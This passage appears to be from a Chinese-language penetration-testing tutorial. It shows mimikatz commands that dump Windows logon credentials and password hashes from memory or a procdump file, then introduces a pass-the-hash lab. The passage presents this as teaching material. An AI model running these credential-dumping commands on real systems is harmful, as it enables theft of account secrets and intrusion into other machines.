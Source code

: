 [![](assets/1706958938-1fa36632f11314106120876942c75006.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172304124-1165193945.png)

> 在这⾥可以看⻅图中带有管理员信息，若是中真实环境中拿到此信息基本就宣告着结束。

#### 3、进阶使用

①利用 procdump 导下来的 dump 文件与 mimikatz 配合使用获取凭据

```bash
mimikatz # log      //记录所得到的信息
mimikatz # sekurlsa::minidump passwd.dmp     //切换环境（挂载 dmp 文件）
mimikatz # sekurlsa::logonpasswords     //列出所有可用的凭据
```

②直接利用 minikatz 获取凭据（需要管理权限）

```bash
mimikata # log          //记录所得到的信息
mimikatz # privilege::debug       //提权（获得 mimikatz 程序的特殊操作）
mimikatz # sekurlsa::msv     //提取内存的 HASH 值
mimikatz # sekurlsa::logonpasswords      //列出所有可用的凭据
```

## 五、实验：PTH（pass-the-hash）哈希传递

### ①简介

哈希传递是⼀种⿊客技术，攻击者可⽤使⽤⽤户密码的 hash 对远程服务器进⾏身份验证，扩⼤战果。其实就是⼀种 `撞库` 的⾏为。在拥有 NTLM hash 的情况下，我们可以⾮常轻易的使⽤ mimikatz 的 `sekurlsa::pth` 发起⼀次 PTH。
